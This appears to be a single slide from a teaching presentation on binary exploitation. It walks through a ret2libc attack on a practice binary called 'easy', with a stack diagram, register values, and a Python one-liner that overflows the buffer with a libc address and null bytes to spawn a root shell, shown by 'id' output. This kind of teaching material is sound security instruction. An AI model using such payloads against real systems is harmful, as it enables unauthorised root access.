

87￼
87￼
Exploit ret2libc
| EBP | 0x61616161 |
| --- | --- |
| ESP | 0xe0 |
| EIP | 0xf7e4ada0 |
stack
Low

…

…

aaaa

aaaa

aaaa

0xf7e4ada0
esp
0xe0

0x0

0xf7f6ba0b

Null

Null
High
root@Ubuntu : tmp ➤ (python -c "print 'a'*13+'\xa0\xad\xe4\xf7'+'\x00\x00\x00\x00'+'\x0b\xba\xf6\xf7'" ; cat)|./easy
id
uid=0(root) gid=0(root) groups=0(root)